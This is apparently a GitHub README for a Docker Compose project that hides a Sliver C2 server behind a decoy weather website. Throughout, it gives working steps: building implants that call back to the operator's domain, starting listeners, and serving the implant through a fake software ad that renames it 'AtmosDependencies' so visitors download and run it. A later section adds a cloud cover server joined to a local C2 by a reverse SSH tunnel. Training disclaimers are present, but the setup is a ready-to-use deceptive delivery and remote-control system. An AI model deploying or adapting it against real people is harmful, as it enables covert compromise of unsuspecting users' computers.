






# Sliver C2 Training Environment

A Docker Compose deployment showcasing the Sliver C2 framework for cybersecurity training and demonstration purposes. This environment includes a weather website as a cover application, nginx as a reverse proxy, and Sliver C2 server for command and control operations.

## Overview

This project demonstrates how Sliver C2 can be deployed alongside legitimate web services to provide a realistic training environment for cybersecurity professionals. The setup includes:

- **Nginx**: Reverse proxy handling HTTPS termination and routing
- **Weather Site**: Feature-rich React weather application serving as a cover, with multi-page navigation, live Open-Meteo data, and a built-in binary download mechanism disguised as a software ad
- **Sliver C2**: Command and control framework for adversary simulation

<p align="center">
  <br>
  <em>Screenshot: the cover weather application served at <code>/weather/</code> (live Open-Meteo data).</em>
</p>

## Architecture

```
┌─────────────┐
│   Client    │
└──────┬──────┘
       │ HTTPS (443)
       ▼
┌─────────────┐
│   Nginx     │ (Reverse Proxy)
│  Port 80/443│
└──────┬──────┘
       │
       ├──────► Weather App (Port 5000) - /weather/
       │             │
       │             ├──────► Open-Meteo API (HTTPS) for live forecasts
       │             └──────► /api/download/latest (serves builds/ binaries)
       └──────► Sliver C2 (Port 8080) - /api/news/
```

### Weather UI

The cover application is a full React single-page app built with Vite and served by the Express backend. It is designed to look and feel like a legitimate weather portal:

- **Home** — current conditions with today's highlights (UV index, wind speed, precipitation) and a 7-day forecast grid
- **Today / Hourly / 10-Day / Monthly** — additional forecast views with varying granularity
- **Explore** — mock weather news articles and featured "ads"; one ad card ("AtmosVision Pro") is wired to `/api/download/latest` and silently delivers the latest implant binary from the `builds/` directory
- **Dark mode** toggle and responsive layout round out the realistic appearance

The Dockerfile uses a multi-stage build: Vite compiles the React app in a builder stage, then the production image copies only the compiled `dist/` output alongside the Express server.

<p align="center">
  <br>
  <em>The Explore page: mock weather news and the "AtmosVision Pro" ad that delivers the implant binary.</em>
</p>

### Weather Data Flow

Requests to the cover application's `/api/weather` endpoint bubble through nginx to the Node weather service. That service:

1. Accepts a city or region query (e.g. `?q=Berlin`) and caches results to limit third-party calls.
2. Uses the Open-Meteo Geocoding API to resolve the location into latitude and longitude.
3. Calls the Open-Meteo Forecast API for a 10-day forecast including highs/lows, precipitation, wind speed, and UV index (all in Fahrenheit / mph).
4. Returns a JSON bundle that includes formatted location details, the current snapshot, daily forecast, and raw Open-Meteo payload for debugging.

Because nginx forwards `/api/weather` without rewriting the path, you can inspect the live data stream directly at `${PROTOCOL}://${DOMAIN}/api/weather?q=<city>` once the stack is up.

### Binary Download Endpoint

The `/api/download/latest` endpoint enables implant delivery through the cover website. When a visitor clicks the "AtmosVision Pro" ad on the Explore page, the server:

1. Reads the `builds/` directory (mounted as a Docker volume from the host).
2. Detects the visitor's OS from the `User-Agent` header and filters for matching filenames (e.g. files containing `windows` or `linux`).
3. Renames the file on the fly to **`AtmosDependencies`** — the browser saves `AtmosDependencies.exe` (Windows) or `AtmosDependencies.tar.gz` (Linux/macOS). Original filenames in `builds/` are never modified.
4. On Linux/macOS the binary is wrapped in a `.tar.gz` archive (created on the fly, cleaned up after sending) with `AtmosDependencies` as the filename inside.

This means that after generating an implant in Sliver and saving it to `builds/`, any visitor who clicks the download ad will receive the appropriate binary for their platform — disguised as legitimate software, with no manual file transfer required.

## Prerequisites

- Docker and Docker Compose installed
- Open ports 80 and (optionally) 443 on your host (or configure custom ports)
- Domain name or IP address for your deployment
- (Optional) Trusted SSL certificates if you do not want to use the autogenerated self-signed option

## Quick Start

### 1. Clone and Navigate

```bash
git clone https://github.com/JongoDB/sliver-weather.git
cd sliver-weather
```

### 2. Configure Environment Variables

Copy the environment template and configure it with your values:

```bash
cp env.template .env
```

<p align="center">
  <br>
  <em>Example <code>.env</code> — copy <code>env.template</code> → <code>.env</code> and set <code>DOMAIN</code>, <code>USE_TLS</code>, and <code>CERTS_HOST_DIR</code>. (Do not commit secrets.)</em>
</p>

Edit `.env` with your preferred editor and set values that match your deployment:

```bash
# Required: Your domain or IP address (used for routing and certificate generation)
DOMAIN=your-domain-or-ip.com

# Enable TLS (HTTPS). When false, nginx serves HTTP only.
USE_TLS=true

# Host directory that stores certificate material mounted into the container.
# Leave the default to use ./certs relative to the project root.
CERTS_HOST_DIR=./certs

# SSL certificate names (will default to ${DOMAIN}.crt and ${DOMAIN}.key)
SSL_CERT_NAME=${DOMAIN}.crt
SSL_KEY_NAME=${DOMAIN}.key

# Optional: Customize ports, paths, etc.
# See env.template for all available options
```

**Important**: The `.env` file is gitignored and will not be committed to the repository. Each user must create their own `.env` file from the template.

### 3. TLS Options

- With `USE_TLS=true` (recommended), the nginx entrypoint looks for `${CERTS_HOST_DIR}/${SSL_CERT_NAME}` and `${CERTS_HOST_DIR}/${SSL_KEY_NAME}` on your host.  
  - If the files are missing, a self-signed certificate/key pair is generated automatically at container startup.  
  - To use trusted certificates, place them in the host directory defined by `CERTS_HOST_DIR` before running the stack.
- With `USE_TLS=false`, nginx renders an HTTP-only configuration; skip any certificate steps and expose only port 80.

**Tip**: You can use an ACME/Let's Encrypt workflow outside the stack to maintain certificates inside `${CERTS_HOST_DIR}` if you need trusted certificates.

### 4. Start the Services

**Important**: Make sure you have created your `.env` file before starting services. The nginx container uses environment variables to configure itself, and missing variables will cause startup failures.

```bash
docker compose up -d --build
```

The `--build` flag ensures containers are rebuilt with the latest configuration. This will:
- Build the nginx, weather, and sliver containers
- Substitute environment variables in nginx configuration at startup
- Start all services

**Note**: If you change your `.env` file after containers are built, you must rebuild the nginx container:
```bash
docker compose build nginx
docker compose up -d
```

**Certificate File Naming**: Ensure any host SSL certificate files in `${CERTS_HOST_DIR}` match the names specified in your `.env` file:
- Certificate file: `${SSL_CERT_NAME}` (default: `${DOMAIN}.crt`)
- Private key file: `${SSL_KEY_NAME}` (default: `${DOMAIN}.key`)

If you rely on the autogenerated self-signed pair, the files are written to `${CERTS_HOST_DIR}` the first time the nginx container runs.

### 5. Access Sliver Server

```bash
docker compose exec -it sliver /bin/bash
```

### 6. Start Sliver Server

Inside the container:

```bash
/opt/sliver-server
```

### 7. Generate an Implant

In the Sliver console, generate a Linux implant. **Note**: You must use your actual domain/IP address - environment variables don't work in the Sliver console.

Replace `your-domain-or-ip.com` with your actual domain or IP from your `.env` file:

```bash
generate --http https://your-domain-or-ip.com:443/api/news/ --os linux --arch amd64 --save /home/sliver/builds
```

<p align="center">
  <br>
  <em>Sliver console: generating an implant and saved to <code>/home/sliver/builds/</code>.</em>
</p>

**Example** (if your DOMAIN is `example.com`):
```bash
generate --http https://example.com:443/api/news/ --os linux --arch amd64 --save /home/sliver/builds
```

Adjust the protocol and port to match your nginx exposure if you are running HTTP-only (for example, `http://example.com:80/api/news/` when `USE_TLS=false`).

The implant will be saved to `/home/sliver/builds` inside the container, which is mounted to `./builds` on your host.

### 8. Start HTTP Listener

Start the HTTP listener. **Note**: Use the actual port number (default: 8080) - environment variables don't work in the Sliver console:

```bash
http --lport 8080 --lhost 0.0.0.0
```

**Note**: The port number (8080) should match `SLIVER_HTTP_PORT` from your `.env` file (default is 8080).

### 9. Deploy and Execute the Implant

After generating the implant, you have two delivery options:

#### Option A: Web Download (recommended for training labs)

Direct the target to the weather site's Explore page. The "AtmosVision Pro" ad triggers a download of the latest OS-matched binary from `builds/`:

```
${PROTOCOL}://${DOMAIN}/weather/explore
```

The target clicks the featured ad → the browser downloads the implant as `AtmosDependencies.exe` (Windows) or `AtmosDependencies.tar.gz` (Linux) → the target runs it. No manual file transfer needed.

#### Option B: Manual Transfer

1. **Copy the implant to your victim/target host**:
   ```bash
   # From your host machine
   scp builds/your_implant_name target_host:/tmp/
   # Or use any other method (HTTP server, USB, etc.)
   ```

2. **Execute the implant on the target host**:
   ```bash
   # On the target host
   /tmp/your_implant_name
   ```

<p align="center">
  <br>
  <em>Example: generated implant copied to a Windows host Downloads folder prior to execution.</em>
</p>

3. **Check for active sessions** in the Sliver console:
   ```bash
   sessions
   ```

4. **Interact with a session**:
   ```bash
   use <session-id>
   ```
<p align="center">
  <br>
  <em>Example session after implant execution: <code>use &lt;session-id&gt;</code> and <code>whoami</code> output showing the compromised host identity.</em>
</p>


**Important**: The implant must be executed on the target host for it to establish a connection back to your Sliver C2 server. The implant will attempt to connect to the URL you specified during generation.

## Usage

### Accessing Services

The protocol depends on your `USE_TLS` choice (`https://` when true, `http://` when false). All URLs use your configured `DOMAIN` from the `.env` file:

- **Weather App**: `${PROTOCOL}://${DOMAIN}/weather/`
- **Weather API**: `${PROTOCOL}://${DOMAIN}/api/weather?q=<location>`
- **Binary Download**: `${PROTOCOL}://${DOMAIN}/api/download/latest` (OS-aware, serves from `builds/`)
- **Sliver C2 Endpoint**: `${PROTOCOL}://${DOMAIN}${SLIVER_C2_PATH}` (default: `/api/news/`)

Use `PROTOCOL=https` when `USE_TLS=true`, otherwise `PROTOCOL=http`.

### Building Implants

Implants are saved to the `builds/` directory, which is mounted as a volume. You can access them from the host at:

```bash
ls -la builds/
```

### Viewing Logs

```bash
# All services
docker compose logs -f

# Specific service
docker compose logs -f nginx
docker compose logs -f weather
docker compose logs -f sliver
```

### Stopping Services

```bash
docker compose down
```

### Cleaning Up

To remove all containers, networks, and volumes:

```bash
docker compose down -v
```

## Configuration

### Environment Variables

The project uses environment variables for universal configuration. All configuration is done through the `.env` file:

- **DOMAIN**: Your domain or IP address (required)
- **USE_TLS**: Enable HTTPS termination (default: `false` in `env.template`)
- **CERTS_HOST_DIR**: Host directory mounted to `/etc/nginx/certs` (default: `./certs`)
- **SSL_CERT_NAME**: SSL certificate filename (defaults to `${DOMAIN}.crt`)
- **SSL_KEY_NAME**: SSL private key filename (defaults to `${DOMAIN}.key`)
- **SLIVER_HTTP_PORT**: Internal Sliver HTTP listener port (default: 8080)
- **SLIVER_C2_PATH**: C2 endpoint path (default: `/api/news/`)
- **NGINX_HTTP_PORT**: External HTTP port (default: 80)
- **NGINX_HTTPS_PORT**: External HTTPS port (default: 443)
- **NETWORK_NAME**: Docker network name (default: `demo_net`)
- **SLIVER_CONFIG_DIR**: Path to Sliver config on host (default: `${HOME}/.sliver`)
- **BUILDS_DIR**: Path to builds directory (default: `./builds`)

See `env.template` for all available options and descriptions.

### Nginx

Nginx configuration templates live under `nginx/` and are rendered at container startup:

- `nginx.conf.template`: HTTPS template with automatic HTTP→HTTPS redirect
- `nginx.http.conf.template`: HTTP-only template (used when `USE_TLS=false`)
- `docker-entrypoint.sh` selects the template, performs env substitution, and generates self-signed certificates when needed
- Routing rules forward `/weather/`, `/api/weather/`, `/api/download/`, and the configured `${SLIVER_C2_PATH}` to their upstream services

### Docker Compose

The `docker-compose.yml` file reads from `.env` and defines:

- **nginx**: Builds custom image with envsubst, exposes configured HTTP/HTTPS ports
- **weather**: React weather app with Express backend; mounts `builds/` for binary delivery
- **sliver**: Sliver C2 server with volumes for config and builds

All services use the `.env` file for configuration. The nginx service relies on an entrypoint script that selects the correct template, substitutes environment variables, and (optionally) bootstraps certificates before starting nginx.

### Volumes

- `~/.sliver`: Sliver configuration and certificates
- `./builds`: Generated implant binaries
- `./certs`: Host-mounted TLS material used by nginx (autogenerated when missing and `USE_TLS=true`)

## Security Considerations

⚠️ **This is a training/demonstration environment. Do not deploy in production without proper security hardening.**

1. **SSL Certificates**: Use proper certificates, not self-signed for production
2. **Network Isolation**: Consider running in an isolated network
3. **Access Control**: Limit access to the Sliver server
4. **Logging**: Monitor and log all activities
5. **Firewall**: Restrict access to necessary ports only

## Troubleshooting

### Cannot connect to Sliver

- Verify the HTTP listener is running: `http --lport 8080 --lhost 0.0.0.0`
- Check nginx logs: `docker compose logs nginx`
- Verify routing in nginx.conf matches your implant URL

- Ensure certificates exist in `${CERTS_HOST_DIR}` on the host (default: `./certs`)
- Check certificate file permissions (should be readable by nginx user)
- Verify certificate file names match `${SSL_CERT_NAME}` and `${SSL_KEY_NAME}` from your `.env` file
- Ensure the certificate Common Name (CN) matches your `DOMAIN` value
- If you see "No such file or directory" errors, check that:
  - Your `.env` file exists and has `DOMAIN` set
  - Certificate filenames in `${CERTS_HOST_DIR}` match `SSL_CERT_NAME` and `SSL_KEY_NAME` from `.env`
  - You've rebuilt the nginx container after creating/updating `.env`: `docker compose build nginx`

### Implant Not Connecting

- Verify the URL in the `generate` command matches your actual `DOMAIN` (use the actual value, not `${DOMAIN}`)
- Check that the `SLIVER_C2_PATH` matches the nginx routing configuration
- Verify nginx is routing the C2 path correctly (check nginx logs)
- Ensure the HTTP listener is active in Sliver (`http --lport 8080 --lhost 0.0.0.0`)
- Confirm the listener port matches `SLIVER_HTTP_PORT` from your `.env` file (default: 8080)
- Ensure the implant has been executed on the target host
- Check firewall rules on both the C2 server and target host
- Verify the implant can reach your C2 server's IP/domain on the exposed nginx port (`NGINX_HTTPS_PORT` when `USE_TLS=true`, otherwise `NGINX_HTTP_PORT`)

### Port Conflicts

- Check if ports 80 or 443 are already in use: `sudo netstat -tulpn | grep -E ':(80|443)'`
- Modify port mappings in docker-compose.yml if needed

## Project Structure

```
sliver-weather/
├── docker-compose.yml      # Main orchestration file
├── env.template            # Environment variables template
├── .env                    # Your local environment config (gitignored)
├── certs/                  # Host TLS assets (autogenerated if USE_TLS=true and files missing)
├── .gitignore              # Git ignore rules
├── nginx/
│   ├── nginx.conf.template # HTTPS template
│   ├── nginx.http.conf.template # HTTP-only template
│   ├── docker-entrypoint.sh # Template selection, env substitution, TLS automation
│   └── Dockerfile          # Nginx Dockerfile
├── weather/
│   ├── Dockerfile          # Multi-stage build (Vite → Node production)
│   ├── server.js           # Express API server (weather + download endpoints)
│   ├── package.json        # Node.js dependencies (React, Vite, Express)
│   ├── vite.config.js      # Vite build configuration
│   ├── index.html          # Vite entry HTML
│   └── src/                # React application source
│       ├── App.jsx         # Root component with React Router
│       ├── App.css         # Global styles
│       ├── main.jsx        # Entry point
│       ├── components/     # Navbar, WeatherTile, NewsCard, Ad
│       ├── pages/          # Home, Today, Hourly, TenDay, Monthly, Explore
│       ├── data/           # Mock news articles and ad definitions
│       └── utils/          # API helpers and weather visual mappings
├── sliver/
│   ├── Dockerfile          # Sliver Dockerfile
│   └── docker-entrypoint.sh # Entrypoint script
├── builds/                 # Generated implants (gitignored, created at runtime)
└── README.md              # This file
```

## Contributing

This is a training/demonstration project. Contributions and improvements are welcome!

## License

Please ensure compliance with local laws and regulations when using C2 frameworks. This project is for educational and authorized security testing purposes only.

## References

- [Sliver Framework](https://github.com/BishopFox/sliver)
- [Nginx Documentation](https://nginx.org/en/docs/)
- [Docker Compose Documentation](https://docs.docker.com/compose/)

## Support

For issues specific to:
- **Sliver**: Check the [Sliver documentation](https://github.com/BishopFox/sliver/wiki)
- **Docker**: Check Docker and Docker Compose logs
- **Nginx**: Check nginx logs and configuration syntax

## Alternate Deployment: Public Cover Server + Local C2

If you want to split responsibilities across hosts—running the weather cover traffic in the cloud while keeping Sliver on a workstation—you can adapt this project without changing the application code. The high-level idea is:

- Cloud VM (public IP/domain): serve the weather app and act as the reverse proxy entry point.
- Local host (non-routable): run Sliver, keep implants and loot private, and expose it to the cloud VM through a reverse SSH tunnel.

### Cloud Host (reverse proxy + weather app)

1. Provision an Ubuntu/Debian VM with ports `80` and (optionally) `443` exposed.
2. Install dependencies:
   ```bash
   sudo apt update
   sudo apt install -y nginx git docker.io docker-compose-plugin
   sudo systemctl enable nginx docker --now
   ```
3. Copy the embedded sample configuration below into `/etc/nginx/nginx.conf`, then tailor values (especially `server_name` and upstream addresses) to match your VM. The defaults assume the weather app listens on `localhost:5000` and the SSH tunnel terminates on `localhost:8080`.

#### Sample `nginx.conf`

```
# nginx/nginx.conf.template  (USED WHEN USE_TLS=true)

#user  nginx;
worker_processes  auto;

events { worker_connections 1024; }

http {
  include       /etc/nginx/mime.types;
  default_type  application/octet-stream;

  sendfile on;
  tcp_nopush on;
  tcp_nodelay on;
  keepalive_timeout 65;

  log_format main '$remote_addr - $remote_user [$time_local] "$request" '
                  '$status $body_bytes_sent "$http_referer" '
                  '"$http_user_agent" "$http_x_forwarded_for"';
  access_log /var/log/nginx/access.log main;
  error_log  /var/log/nginx/error.log warn;

  # (Optional) Docker DNS resolver helps when using variables in proxy_pass
  # resolver 127.0.0.11 ipv6=off valid=30s;

  upstream weather_upstream {
    server localhost:5000;
  }

  upstream tunnel {
    server localhost:8080;
  }

  server {
    listen 80;
    server_name example.com www.example.com;
    # If you terminate TLS on this host, uncomment the directives below and point them at your certificate material.
    # listen 443 ssl http2;
    # ssl_certificate     /etc/nginx/certs/example.com.crt;
    # ssl_certificate_key /etc/nginx/certs/example.com.key;
    # add_header Strict-Transport-Security "max-age=63072000; includeSubDomains" always;

    location = / { return 302 /weather/; }

    location /api/news/ {
      proxy_pass http://tunnel;
      proxy_set_header  X-Real-IP  $remote_addr;
      proxy_set_header  X-Forwarded-For $proxy_add_x_forwarded_for;
      proxy_set_header Host $http_host;
      proxy_redirect off;
    }

    location /weather/ {
      proxy_pass http://weather_upstream/;
      proxy_http_version 1.1;
      proxy_set_header Host              $host;
      proxy_set_header X-Real-IP         $remote_addr;
      proxy_set_header X-Forwarded-For   $proxy_add_x_forwarded_for;
      proxy_set_header X-Forwarded-Proto $scheme;
      proxy_set_header Connection        "";
    }

    location /api/weather/ {
      proxy_pass http://weather_upstream;
      proxy_http_version 1.1;
      proxy_set_header Host              $host;
      proxy_set_header X-Real-IP         $remote_addr;
      proxy_set_header X-Forwarded-For   $proxy_add_x_forwarded_for;
      proxy_set_header X-Forwarded-Proto $scheme;
      proxy_set_header Connection        "";
    }

    location /api/download/ {
      proxy_pass http://weather_upstream;
      proxy_set_header Host              $host;
      proxy_set_header X-Real-IP         $remote_addr;
      proxy_set_header X-Forwarded-For   $proxy_add_x_forwarded_for;
      proxy_set_header X-Forwarded-Proto $scheme;
      proxy_set_header Connection        "";
    }
  }
}
```

4. Pull the published weather application image (replace the reference with your registry path if you maintain a private copy):
   ```bash
   sudo docker pull ghcr.io/jongodb/sliver-weather-frontend:latest
   ```
5. Run the weather app behind nginx:
   ```bash
   sudo docker run -d --name weather-app --restart unless-stopped -p 5000:5000 ghcr.io/jongodb/sliver-weather-frontend:latest
   ```
   - If you prefer to build locally, clone the repo elsewhere, run `docker build -t <your-tag> weather/`, push it to your registry, and substitute that tag in the `docker run` command.
6. Restart nginx to load the new configuration:
   ```bash
   sudo nginx -t    # syntax check and debug validation
   sudo systemctl restart nginx
   ```
   - The nginx upstream `weather_upstream` now routes `/weather/` and `/api/weather/` to this container.
7. (Optional) Enable HTTPS with a certificate manager on the VM. Update `/etc/nginx/nginx.conf` accordingly if you terminate TLS on nginx.
   - To bootstrap with a self-signed certificate (replace `example.com` with your domain):
     ```bash
     sudo mkdir -p /etc/nginx/certs
     sudo openssl req -x509 -nodes -newkey rsa:4096 \
       -keyout /etc/nginx/certs/example.com.key \
       -out /etc/nginx/certs/example.com.crt \
       -days 365 \
       -subj "/CN=example.com"
     ```

### Local Host (Sliver C2 + reverse tunnel endpoint)

1. Install Sliver (example installer):
   ```bash
   curl https://sliver.sh/install | sudo bash
   ```
   The installer places `sliver-server` binaries under `/opt/sliver-server`.
2. Launch Sliver and create an implant that points back to the cloud VM through the nginx `/api/news/` route:
   ```bash
   /opt/sliver-server
   ```
   Inside the Sliver console:
   ```bash
   generate --http http://<cloud-vm-public-ip-or-domain>/api/news/ --os linux --save /home/<user>/sliver-builds
   http --lport 8080 --lhost 0.0.0.0
   ```
3. Create the reverse SSH tunnel so the cloud VM can reach your local listener:
   ```bash
   ssh -R 8080:localhost:8080 <cloud-user>@<cloud-vm-public-ip-or-domain>
   ```
   - `-R 8080:localhost:8080` binds port `8080` on the cloud VM (referenced by nginx as `tunnel`) to the Sliver listener on your local host.
   - Keep this SSH session persistent (consider `autossh` or a systemd user unit). Add `-N` if you prefer the tunnel to run without an interactive shell.
4. Transfer the generated implant to the target system, execute it, and monitor sessions from the local Sliver console as usual.

### Operational Tips

- Open the cloud firewall for ports `80/443` only; keep `8080` closed externally—the tunnel handles connectivity.
- Monitor the tunnel service (`journalctl --user -u autossh` if you wrap it) to detect drops quickly.
- When you regenerate implants or change listener ports, update both `nginx.conf` and the SSH reverse tunnel arguments so the path and port stay in sync.
- Treat this split deployment as an advanced scenario: logging, alerting, and certificate management become your responsibility outside of Docker Compose.

---

**Disclaimer**: This tool is intended for authorized security testing and educational purposes only. Unauthorized access to computer systems is illegal. Use responsibly and only in environments you own or have explicit permission to test.

